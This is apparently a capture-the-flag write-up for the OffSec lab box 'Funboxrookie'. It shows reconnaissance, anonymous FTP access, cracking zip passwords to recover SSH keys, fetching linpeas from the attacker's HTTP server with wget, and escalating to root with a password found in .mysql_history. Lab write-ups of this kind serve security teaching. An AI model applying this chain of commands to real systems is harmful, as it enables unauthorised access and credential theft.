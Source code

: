 
# OffSec labs - Funboxrookie

Initial nmap scan showed a few open and interesting ports: 
```shell
nmap -sV -sC -n -O -T4 -p- -Oa scan 192.168.89.107/24

```
```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.5e
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 anna.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 ariel.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 bud.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 cathrine.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 homer.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 jessica.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 john.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 marge.zip
| -rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 miriam.zip
| -r--r--r--   1 ftp      ftp          1477 Jul 25  2020 tom.zip
| -rw-r--r--   1 ftp      ftp           170 Jan 10  2018 welcome.msg
|_-rw-rw-r--   1 ftp      ftp          1477 Jul 25  2020 zlatan.zip
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f9467dfe0c4da97e2d77740fa2517251 (RSA)
|   256 15004667809b40123a0c6607db1d1847 (ECDSA)
|_  256 75ba6695bb0f16de7e7ea17b273bb058 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/logs/
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.32 or 3.10 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.2 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), WatchGuard Fireware 11.8 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%)
```

We see nmap identified port 21 on FTP as anonymous login enabled, it also gives us a list of files on the server.
lets login 
```shell
ftp anonymous@192.168.89.107
```
lets see if we can upload something 
```shell
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||41295|)
550 test.txt: Operation not permitted
```
Nope, no luck, lets download the file on here and snoop around in them

```shell
                                                                               
┌──(kali㉿kali)-[~/Documents/funboxrookie/ftp]
└─$ unzip anna.zip    
Archive:  anna.zip
[anna.zip] id_rsa password:
```
We need a password to unzip them! 
Lets move on to the webserver and see what we can do on port 80
Looks like an apache page, lets try to find some directories

```shell
gobuster dir -u http://192.168.89.107 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
No luck on finding directories, lets try to crack one of the zip files passwords with john 

```shell
zip2john cathrine.zip > cat.john
```
Now lets try to crack it! 
```shell
john cat.john --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press `q` or Ctrl-C to abort, almost any other key for status
catwoman         (cathrine.zip/id_rsa)     
1g 0:00:00:00 DONE (2022-11-14 19:29) 33.33g/s 273066p/s 273066c/s 273066C/s 123456..whitetiger
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
we got a password!

lets unzip the file

```shell
unzip cathrine.zip 
Archive:  cathrine.zip
[cathrine.zip] id_rsa password: 
  inflating: id_rsa
```
Looks like an rsa key was in the zip file, hopefully we can use it to ssh into the server, lets try.

```shell
ssh cathrine@192.168.89.107 -i id_rsa
Connection closed by 192.168.89.107 port 22
```
It didn't work! We forgot to change the file permissions...

```shell
sudo chmod 600 id_rsa
```
Lets try again

```shell
ssh cathrine@192.168.89.107 -i id_rsa
Connection closed by 192.168.89.107 port 22
```
still not working....
i'm gonna crack another zip and try that rsa key. 

After cracking, unzipping, and changing perms for tom.zip we can finally connect.

```shell
ssh tom@192.168.89.107 -i id_rsa     
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-117-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue Nov 15 00:50:35 UTC 2022

  System load:  0.0               Processes:             164
  Usage of /:   74.7% of 4.37GB   Users logged in:       0
  Memory usage: 36%               IP address for ens256: 192.168.89.107
  Swap usage:   0%


30 packages can be updated.
0 updates are security updates.



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

tom@funbox2:~$ 
ls
cat local.txt 
```

got the user flag! 

now lets try to privesc, running linpeas.sh

on my box:
```shell
python3 -m `http.server`
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
in ssh session:
```shell
wget http://<ip>:8000/peas.sh
```
```shell
bash peas.sh
```
linpeas didn`t turn up anything usefull, lets check out history files

trying to cd anywhere gives an error, lets upgrade toa full tty python

```shell
python3 -c `import os; os.system("/bin/bash");`
```
Now lets check some history files, bash first
```shell
cat .bash_history
```
blank! 

this sql one looks interesting 

```shell
tom@funbox2:~$ cat .mysql_history 
_HiStOrY_V2_
show\040databases;
quit
create\040database\040`support`;
create\040database\040support;
use\040support
create\040table\040users;
show\040tables
;
select\040*\040from\040support
;
show\040tables;
select\040*\040from\040support;
insert\040into\040support\040(tom,\040xx11yy22!);
quit

```
Looks like a possible password in the last query? lets try it 

```shell
tom@funbox2:~$ sudo -l
[sudo] password for tom: 
Matching Defaults entries for tom on funbox2:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tom may run the following commands on funbox2:
    (ALL : ALL) ALL

```
ALL COMMANDS! 
```shell
sudo su
root@funbox2:/home/tom# whoami
root
```
WE GOT ROOT

```shell
cd /root/
cat proof.txt
```


Overall easy box covering: anonymous FPT login, password cracking, and lack of history cleaning.  



